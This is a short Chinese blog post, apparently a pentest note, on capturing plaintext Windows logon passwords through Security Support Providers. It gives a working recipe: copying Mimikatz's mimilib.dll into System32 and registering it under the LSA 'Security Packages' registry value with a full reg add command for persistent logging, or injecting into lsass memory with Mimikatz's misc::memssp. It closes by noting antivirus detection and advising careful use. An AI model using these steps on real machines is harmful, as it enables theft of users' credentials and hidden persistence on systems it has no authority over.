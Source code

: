 
## 简介
安全支持提供程序（SSP）是Windows API，主要功能是扩展Windows身份认证机制，该DLL文件会在`lsass.exe` 启动过程中进行加载，在此之前现介绍一下，它会对Windows以下认证进行保护：
* NTLM
* Kerberos
* Negotiate
* 安全通道（Schannel）
* 摘要
* 凭证（CredSSP）

我们可以对任意一个SSP DLL文件，从而记录下用户明文登陆的密码。

此文章主要介绍 DLL结合注册表进行记录密码 以及 诸如内存记录密码。



## 利用
主要介绍Mimikatz的两种记录方法，还有Empire和PowerSploit的利用方法都差不多，就不详细介绍。
1. DLL和注册表结合

将Mimikatz程序中的`mimilib.dll`复制到目标机器的system32文件夹下
![1.png](https://raw.githubusercontent.com/is0late/is0late.github.io/master/_posts/2020/media/2020-01-07-01.png)
所以 需要管理员权限

向路径：
`hklm\system\currentcontrolset\control\lsa\`
添加新值

```
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
```


![2.png](https://raw.githubusercontent.com/is0late/is0late.github.io/master/_posts/2020/media/2020-01-07-02.png)

用户登陆即会在相同路径下（System32）记录明文密码，且重启依旧会记录。

![3.png](https://raw.githubusercontent.com/is0late/is0late.github.io/master/_posts/2020/media/2020-01-07-03.png)

1. 注入内存中

将mimikatz传入目标机器

管理员权限启动

```
privilege::debug

misc::memssp
```

![4.png](https://raw.githubusercontent.com/is0late/is0late.github.io/master/_posts/2020/media/2020-01-07-04.png)

当用户登陆时，System32文件夹下会自动存储`mimilsa`里面存放登陆的账号密码。

![5.png](https://raw.githubusercontent.com/is0late/is0late.github.io/master/_posts/2020/media/2020-01-07-05.png)

注：因为是注入内存中的所以在重启后，该功能就没了。




## 总结

第一种方法比第二种会更好一些，但是mimilib.dll已经被各大av标记，所以谨慎使用吧